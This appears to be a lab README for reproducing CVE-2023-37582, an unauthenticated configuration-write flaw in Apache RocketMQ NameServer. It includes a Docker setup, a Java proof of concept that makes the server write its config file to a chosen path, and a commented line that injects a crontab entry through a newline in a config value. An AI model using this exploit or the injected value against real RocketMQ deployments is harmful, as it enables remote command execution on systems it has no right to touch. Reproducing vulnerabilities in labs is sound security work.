 # Apache RocketMQ Remote Command Execution Vulnerability (CVE-2023-37582)

The RocketMQ NameServer component still has a remote command execution vulnerability as the CVE-2023-33246 issue was not completely fixed in version 5.1.1.

When NameServer address are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function on the NameServer component to execute commands as the system users that RocketMQ is running as.

## Affected Version

- Apache RocketMQ 5.x <= 5.1.1
- Apache RocketMQ <= 4.9.6

## Usage

Run following command to startup the apache rocketmq, the NameServer and Broker was listing on `9876` and `10911`.

```bash
docker-compose up
```

### Poc of CVE-2023-37582

The poc below will write the configuration file of NameServer to `/tmp/rocketmq`,

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        // props.setProperty("productEnvName", "anything\\n1 * * * * {user} cat /tmp/crontab_success");
        props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/tmp/rocketmq");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

After running, you will see the file `/tmp/rocketmq` with content

```
bindAddress=0.0.0.0
clientRequestThreadPoolNums=8
clientRequestThreadPoolQueueCapacity=50000
clusterTest=false
configStorePath=/tmp/rocketmq
defaultThreadPoolNums=16
defaultThreadPoolQueueCapacity=10000
enableAllTopicList=true
enableControllerInNamesrv=false
enableTopicList=true
kvConfigPath=/root/namesrv/kvConfig.json
listenPort=9876
needWaitForService=false
notifyMinBrokerIdChanged=false
orderMessageEnable=false
productEnvName=anything
returnOrderTopicConfigToBroker=true
rocketmqHome=/opt/rocketmq-all-5.1.0
scanNotActiveBrokerInterval=5000
serverAsyncSemaphoreValue=64
serverCallbackExecutorThreads=0
serverChannelMaxIdleTimeSeconds=120
serverOnewaySemaphoreValue=256
serverPooledByteBufAllocatorEnable=true
serverSelectorThreads=3
serverSocketBacklog=1024
serverSocketRcvBufSize=0
serverSocketSndBufSize=0
serverWorkerThreads=8
supportActingMaster=false
unRegisterBrokerQueueCapacity=3000
useEpollNativeSelector=false
waitSecondsForService=45
writeBufferHighWaterMark=0
writeBufferLowWaterMark=0
```

> Since the `org.apache.rocketmq.broker.filtersrv.FilterServerManager` was removed from `5.1.1`, you can try to exploit it with writing the content to a crontab file for command execution.

## Reference

1. https://lists.apache.org/thread/m614czxtpvlztd7mfgcs2xcsg36rdbnc
